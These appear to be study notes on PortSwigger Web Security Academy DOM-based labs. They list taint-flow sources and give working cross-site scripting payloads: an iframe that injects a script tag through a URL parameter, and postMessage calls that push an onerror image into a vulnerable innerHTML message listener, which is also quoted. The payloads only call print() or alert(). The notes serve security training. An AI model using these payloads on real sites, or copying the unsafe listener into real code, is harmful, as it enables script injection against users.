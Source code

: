 ## Common sources

The following are typical sources that can be used to exploit a variety of taint-flow vulnerabilities:
'''
document.URL
document.documentURI
document.URLUnencoded
document.baseURI
location
document.cookie
document.referrer
window.name
history.pushState
history.replaceState
localStorage
sessionStorage
IndexedDB (mozIndexedDB, webkitIndexedDB, msIndexedDB)
Database
'''

## LAB 1
- <iframe src="https://YOUR-LAB-ID.web-security-academy.net/product?productId=1&'><script>print()</script>" onload="if(!window.x)this.src='https://YOUR-LAB-ID.web-security-academy.net';window.x=1;">
- https://portswigger.net/web-security/dom-based/cookie-manipulation/lab-dom-cookie-manipulation

## Lab 2
- I saw the following in html code
'''
                     <div id='ads'>
                    </div>
                    <script>
                        window.addEventListener('message', function(e) {
                            document.getElementById('ads').innerHTML = e.data;
                        })
                    </script>
'''
- After googling I found that '''window.postMessage('<img src=1 href=1 onerror="javascript:alert(1)"></img>', 'https://0ac90071041154dd804285ae00110042.web-security-academy.net/');''' send a message, and the event listener would see and append it.
- The following iframe sent message to parent url.
'''
<iframe src="https://0ac90071041154dd804285ae00110042.web-security-academy.net/" width="100%" height="100%"  onload="this.contentWindow.postMessage('<img src=1 href=1 onerror=print()></img>', '*')">

'''
